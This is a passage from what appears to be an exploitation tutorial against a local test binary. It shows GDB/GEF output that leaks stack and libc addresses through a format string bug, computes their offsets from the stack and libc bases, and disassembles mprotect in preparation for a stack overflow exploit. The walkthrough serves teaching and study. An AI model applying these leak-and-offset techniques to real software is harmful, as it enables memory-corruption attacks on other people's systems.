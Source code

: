 In order to get this exploit to work, we'll have to exploit the format string vulnerability to leak addresses from the stack. Then we can calculate the offsets of all other addresses that we need for our exploit.
```sh
gef➤  r
Starting program: /home/nihaal/Desktop/test/test
Format string vuln: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
0x5555555596b1.(nil).0x5555555596cf.0x7fffffffdfa0.0x7ffff7fadbe0.0x7fffffffe108.0x100000000.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
Stack overflow vuln:
```

After leaking the addresses, I used Ctrl-C to pause execution in GDB. Then I printed out the memory mapping.
```sh
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /home/nihaal/Desktop/test/test
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /home/nihaal/Desktop/test/test
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /home/nihaal/Desktop/test/test
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /home/nihaal/Desktop/test/test
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /home/nihaal/Desktop/test/test
0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
0x00007ffff7def000 0x00007ffff7e14000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7e14000 0x00007ffff7f5f000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f5f000 0x00007ffff7fa9000 0x0000000000170000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa9000 0x00007ffff7faa000 0x00000000001ba000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fad000 0x00000000001ba000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fad000 0x00007ffff7fb0000 0x00000000001bd000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fb0000 0x00007ffff7fb6000 0x0000000000000000 rw-
0x00007ffff7fcc000 0x00007ffff7fd0000 0x0000000000000000 r-- [vvar]
0x00007ffff7fd0000 0x00007ffff7fd2000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd2000 0x00007ffff7fd3000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd3000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000021000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000029000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002a000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

Note that `0x7fffffffdfa0` is the third address leaked from the program (starting from zero), and it is `0x7fffffffdfa0 - 0x7ffffffde000 = 0x1ffa0` bytes away from the start of the stack. Also note that `0x7ffff7fadbe0`, the fourth address leaked from the stack, is `0x7ffff7fadbe0 - 0x7ffff7def000 = 0x1bebe0` bytes away from the base of libc. Another interesting thing to note is that the third address leaked from the program points to the start of our buffer.
```sh
gef➤  x/s 0x7fffffffdfa0
0x7fffffffdfa0: "%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.\n"
gef➤  disas mprotect
Dump of assembler code for function mprotect:
   0x00007ffff7ee7bc0 <+0>:     mov    eax,0xa
   0x00007ffff7ee7bc5 <+5>:     syscall
   0x00007ffff7ee7bc7 <+7>:     cmp    rax,0xfffffffffffff001
   0x00007ffff7ee7bcd <+13>:    jae    0x7ffff7ee7bd0 <mprotect+16>
   0x00007ffff7ee7bcf <+15>:    ret
   0x00007ffff7ee7bd0 <+16>:    mov    rcx,QWORD PTR [rip+0xc5299]        # 0x7ffff7face70
   0x00007ffff7ee7bd7 <+23>:    neg    eax
   0x00007ffff7ee7bd9 <+25>:    mov    DWORD PTR fs:[rcx],eax
   0x00007ffff7ee7bdc <+28>:    or     rax,0xffffffffffffffff
   0x00007ffff7ee7be0 <+32>:    ret
End of assembler dump.
```
